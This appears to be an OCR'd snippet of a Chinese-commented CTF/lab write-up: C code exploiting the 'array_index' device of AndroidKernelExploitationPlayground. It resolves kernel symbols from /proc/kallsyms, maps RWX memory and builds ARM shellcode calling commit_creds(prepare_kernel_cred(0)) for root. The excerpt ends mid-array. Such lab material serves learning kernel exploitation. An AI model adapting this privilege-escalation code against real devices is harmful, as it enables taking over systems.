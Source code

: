 ```
        //sudo sysctl -w kernel.kptr_restrict=0
        f = fopen("/proc/kallsyms", "r");
        if (!f) {
                return 0;
        }
 
        while (ret != EOF) {
                ret = fscanf(f, "%p %c %s\n", (void **) &addr, &dummy, sname);
                if (ret == 0) {
                        fscanf(f, "%s\n", sname);
                        continue;
                }
                if (!strcmp(name, sname)) {
                        printf("[+] resolved symbol %s to %p\n", name, (void *) addr);
                        return addr;
                }
        }
 
        return 0;
}
 
__u32 commit_creds;
__u32 prepare_kernel_cred;
 
int main(void){
 
    //基本思路一样的，都是最终调用commit_creds(prepare_kernel_cred(0));
    commit_creds =  get_symbol("commit_creds");
    prepare_kernel_cred = get_symbol("prepare_kernel_cred");
 
    //这个是封装在AndroidKernelExploitationPlayground环境内的漏洞文件位置（这里和其他的exp不同，重点没有去构造socket与其交互，而是直接用其自己实现的伪“函数”，然后用ioctl与其交互。
 
    int cmd_handler = open("/dev/array_index", O_RDWR);
    check(cmd_handler >= 0, "Error opening challenge device");
 
    //这里就是构造一块可入可写可执行的用户空间，在这段空间内布置rop链
    __u32 mmap_start = 0x02000000, mmap_size = 0x15000;
 
    printf("[+] Mapping userspace memory at 0x%x\n", mmap_start);
 
    void * mapped = mmap((void*)mmap_start, mmap_size, PROT_READ|PROT_WRITE|PROT_EXEC,
        MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0);
        check(mapped != MAP_FAILED, "Failed mapping");
 
     //0x00000000 is nop for ARM
        bzero( (void*)mmap_start, mmap_size );
 
    //这里是arm上的exp，学过arm pwn的师傅们应该也不觉得陌生
    //先将prepare_kernel_creds的位置放入r3，在把参数赋为0，即prepare_kernel_creds（0）
    //调用r3内的函数（即prepare_kernel_creds）后，由于r0同时担当了保存返回值的角色，于是只需将接下来调用的寄存器赋为commit_creds即可
        __u32 jump[] = {
           //00000000 <_start>:
           /*   0:*/   0xe92d4010,           //  push    {r4, lr}
           /*   4:*/   0xe59f3010,           //  ldr r3, [pc, #16]   ; 1c <_start+0x1c> (prepare_kernel_creds)
           /*   8:*/   0xe3a00000,           //  mov r0, #0
           /*   c:*/   0xe12fff33,           //  blx r3
           /*  10:*/   0xe59f3008,           //  ldr r3, [pc, #8]    ; 20 <_start+0x20>  (commit_creds)
           /*  14:*/   0xe12fff33,           //  blx r3
           /*  18:*/   0xe8bd8010,           //  pop {r4, pc}
           /*  1c:*/   prepare_kernel_cred,  //  .word   prepare_kernel_cred
```